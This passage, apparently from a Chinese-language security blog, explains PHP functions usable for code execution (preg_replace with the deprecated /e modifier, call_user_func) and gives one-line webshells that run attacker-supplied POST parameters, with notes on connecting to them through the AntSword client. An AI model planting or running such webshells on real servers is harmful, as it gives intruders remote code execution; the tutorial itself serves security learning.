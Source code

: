 preg_replace — 执行一个正则表达式的搜索和替换
搜索subject中匹配pattern的部分， 以replacement进行替换。

当使用被弃用的 `e` 修饰符时, 这个函数会转义一些字符(即：`'`、`"`、 `\` 和 `NULL`
然后进行后向引用替换。**在完成替换后， 引擎会将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串。**

举个栗子：

```php
echo preg_replace('/chabug/e','phpinfo()','asdasdchabugasd');
```

`/e`修饰符前的正则表达式匹配后面的字符串参数，将`chabug`字符串替换为`phpinfo()`并且以`eval()`的方式执行。

一句话:

```php
echo preg_replace('/.*/e',$_POST['c'],'');
```

### call_user_func
```php
call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] ) : mixed
```
(PHP 4, PHP 5, PHP 7)

`call_user_func` — 把第一个参数作为回调函数调用
第一个参数 `callback` 是被调用的回调函数，其余参数是回调函数的参数。

举个例子：

```php
call_user_func('phpinfo');
```

一句话shell:

```php
call_user_func($_POST['a'], $_POST['c']);
```

![](https://y4er.com/img/uploads/20190509169644.jpg)

蚁剑链接

![](https://y4er.com/img/uploads/20190509169934.jpg)

![](https://y4er.com/img/uploads/20190509160364.jpg)

需要设置http body和编码器

### call_user_func_array

```php
call_user_func_array ( callable $callback , array $param_arr ) : mixed
```

`call_user_func_array`  调用回调函数，并把一个数组参数作为回调函数的参数

举个例子：
